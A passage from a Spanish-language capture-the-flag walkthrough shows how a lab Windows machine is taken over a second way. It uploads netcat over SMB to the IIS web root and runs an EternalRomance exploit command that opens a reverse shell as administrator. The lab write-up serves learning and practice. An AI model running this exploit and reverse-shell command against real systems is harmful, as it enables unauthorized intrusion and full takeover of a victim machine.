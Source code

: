 Nota: Nótese cómo en el comando estamos mandando aún un usuario (bob) y contraseña (123). Estos pueden ser lo que sea, dado que ya hardcodeamos dichos valores en el código. Solo se envían porque el programa necesita dichos valores en la entrada (aunque después los ignore).

La salida muestra que el comando se ejecutó de manera exitosa, por lo que procedemos a verificarlo con la consola que aún conservamos del privesc anterior.

Nota: Esto solo es posible dado que anteriormente comprometimos la máquina por el otro método. De haber iniciado con este, no seríamos capaces de verificar si realmente el script está funcionando y hubiéramos tenido que intentar con nada más que fé en que funcionará, jaja.

![24]

Como podemos observar, al listar el contenido de la carpeta Desktop del usuario Bob, somos capaces de ver el archivo **pwned.txt** que mandamos a crear, por lo que parece ser que el script está funcionando correctamente. Ahora solo queda ejecutar un comando que nos permita acceder como administradores, y qué mejor que una reverse shell.

Para esto, requerimos de una forma para subir un netcat al servidor. Si nos ponemos en el escenario de primer acercamiento, es decir, no contamos aún con acceso al servidor, tendríamos que buscar la forma de subir un archivo de manera remota solo con lo que nos ofrece la máquina. Es aquí donde recordamos que podemos subir archivos al servicio SMB, por lo que primero localizamos la carpeta correspondiente en el sistema, encontrándose en:

    c:\inetpub\wwwroot\nt4wrksv

![25]

Ya localizada, subimos el netcat con el comando put:

    put nc.exe

![26]

Finalmente, volvemos a ejecutar el EternalRomance, pero ahora indicándole que ejecute el netcat que acabamos de subir y que entable una reverse shell con nosotros:

    python2 eternalromance.py 10.10.193.172 bob 123 "c:\inetpub\wwwroot\nt4wrksv\nc.exe -e cmd 10.10.15.193 443"

![27]

Para este momento, ya debemos tener una consola con el netcat en escucha por el puerto especificado. Vemos como al ejecutar el EternalRomance, este parece quedarse colgado un momento; esto es buena señal, y si nos dirigimos a la consola en escucha veremos que recibimos una shell como el usuario administrador:

![28]

Con esto hemos completado la máquina, habiéndola comprometido de dos formas diferentes.

[1]:/assets/images/relevant/1.png
[2]:/assets/images/relevant/2.png
[3]:/assets/images/relevant/3.png
[4]:/assets/images/relevant/4.png
[5]:/assets/images/relevant/5.png
[6]:/assets/images/relevant/6.png
[7]:/assets/images/relevant/7.png
[8]:/assets/images/relevant/8.png
[9]:/assets/images/relevant/9.png
[10]:/assets/images/relevant/10.png
[11]:/assets/images/relevant/11.png
[12]:/assets/images/relevant/12.png
[13]:/assets/images/relevant/13.png
[14]:/assets/images/relevant/14.png
[15]:/assets/images/relevant/15.png
[16]:/assets/images/relevant/16.png
[17]:/assets/images/relevant/17.png
